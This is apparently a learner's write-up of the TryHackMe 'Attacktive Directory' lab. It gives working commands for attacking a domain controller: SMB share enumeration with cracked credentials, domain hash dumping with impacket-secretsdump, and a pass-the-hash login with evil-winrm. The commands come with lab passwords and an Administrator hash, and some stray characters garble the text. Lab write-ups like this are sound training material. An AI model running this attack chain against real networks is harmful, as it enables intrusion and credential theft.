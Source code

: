 ```
URL : https://tryhackme.com/room/attacktivedirectory
Description: 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
ip : 10.10.15.181
```


So this is about Active directory which i have little experience with. I've done some rooms but nothing really "stuck" with me, so ill have to start from scratch:

Lets start with a nmap scan on the 1000 most known ports:

| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |2
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 636/tcp | open | tcpwrapped |   |
| 80/tcp | open | http | Microsoft IIS httpd 10.0 |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |2


We see a lot of open ports here, lets see what is happening on port 80 in a browser. This just shows a basic introduction screen to Windows server.

Since Kerboros works mostly only with Domains, we add the machine IP to the given .

``sudo echo "<ip> spookysec.local" >> /etc/hosts``

This registers the domain name for that ip and we can proceed.

For this assignment, the user/password lists were adjusted 4

We pull the hash out of Kerbrute which gives us something to "bruteforce".
user: svc-admin
password: management2005

Now that we have a user and his credentials, we can scan for SMB mounts we can check for usefull files/explotable entrances.
We use `smbclient` to enumerate samba shares and see whatsup


```
smbclient -L 10.10.166.85 --user=svc-admin%management2005 | tee smbclient_enum.txt

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available

```
the "backup" mount jumps out as something that might have useful information, lets connect to it:

``smbclient //10.10.166.85/backup --user=svc-admin%management2005``

Here we find a `backup_credentials.txt` file with some sort of encrypted string.

```
─$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw"
| base64 -d

backup@spookysec.local:backup2517860       
```

On a whim we will base64 decode it see if it resolves with any usefull information, and there! we have found more account credentials which most likely escalate our permissions!

Now the Walkthrough tells us to use this Backup information to "dumpSecrets" with this backup account. lets try it.



`sudo impacket-secretsdump backup:backup2517860@spookysec.local | tee "secretsdump_output.txt"`
This gives as a giant file yo22u can check in the root folder called secretsdump_output.txt. This shows us alot of hashes aand usefull information. Ofcourse we're interested in the Administrator account.

From this we get a giant list of dumped Credentials, we can use these credentials to log-in with the Master account `Administrator` by using a technique called "pass the hash". This allows us to use the hash as credentials to login with the Administrator account.

For this we use software called Evil Win-Rm, and we pass the hash we found from this line to it.

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`sudo evil-winrm _2.3_ -i 10.10.145.103 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

*NOTE*
  This does not work from my Kali-vm for some reason, and i cannot figure out why. I've tried to downgrade the evil-winrm to version 2.3 which i found somewhere in a writeup and some other things, but i could not get it to work :(

  What i did instead is use the TryHackMe provided Attack-box and it worked like a charm with the exact same command. Probably some VPN thing.

In the end, this gave us a PowerShell as Administrator and allowed us to fill in the 3 flags that were required by simply navigating to `Users\svc-admin Users\backup and Users\Administrator\Desktop`.

Conclusion:

I've learned alot from this room as i have used some of the tools before and my knowledge of Windows Active directory is still very limited. But This was a fun and challenging task, especially because the Evil-winrm didnt want to work on my local machine :).
